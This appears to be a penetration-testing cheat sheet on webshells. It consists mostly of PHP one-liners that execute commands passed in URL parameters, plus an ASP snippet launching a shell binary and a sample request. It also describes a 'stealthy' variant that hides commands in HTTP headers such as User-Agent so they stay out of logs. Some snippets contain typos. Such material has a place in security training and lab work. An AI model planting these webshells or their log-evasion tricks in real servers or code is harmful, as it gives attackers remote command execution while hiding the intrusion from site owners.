 # Webshell

A webshell is a shell that you can access through the web. This is useful for when you have firewalls that filter outgoing traffic on ports other than port 80. As long as you have a webserver, and want it to function, you can't filter our traffic on port 80 (and 443). It is also a bit more stalthy than a reverse shell on other ports since the traffic is hidden in the http traffic.

## PHP - Basic cmd-shell

This code can be injected into pages that use php.
```php

# Execute one command
<?php system("whoami); ?>

# Take input from the url paramter. shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>

# The same but using passthru
<?php passthru($_GET['cmd']); ?>

# For shell_exec to output the result you need to echo it
<?php echo shell_exec("whoami");?>

# Exec() does not output the result without echo, and only output the last line. So not very useful!
<?php echo exec("whoami");?>

# Instead to this if you can. It will return the output as an array, and then print it all.
<?php exec("ls -la",$array); print_r($array); ?>

# preg_replace(). This is a cool trick
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>

# Using backticks
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>

# Using backticks
<?php echo `whoami`; ?>
```

You can then call then execute the commands like this:

```
http://192.168.1.103/index.php?cmd=pwd
```

### Make it stealthy

We can make the commands from above a bit more stealthy. Instead of passing the cmds through the url, which will be obvious in logs, we cna pass them through other header-paramters. The use tampterdata or burpsuite to insert the commands. Or just netcat or curl.

```php

<?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
<?php system($_SERVER['HTTP_USER_AGENT'])?>


```

## ASP

```
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\shell443.exe",0,True)
%>
```

## Webshells

Wellshells have the benefit of running on port 80/443. Which makes it a bit more stealthy, it doesn't create a new connection that can be discovered. But on the other hand it creates a lot of strange logs that can be easy to detect.

You have access to different kinds of webshells on Kali here:
```
/usr/share/webshells
```

http://www.binarytides.com/web-shells-tutorial/
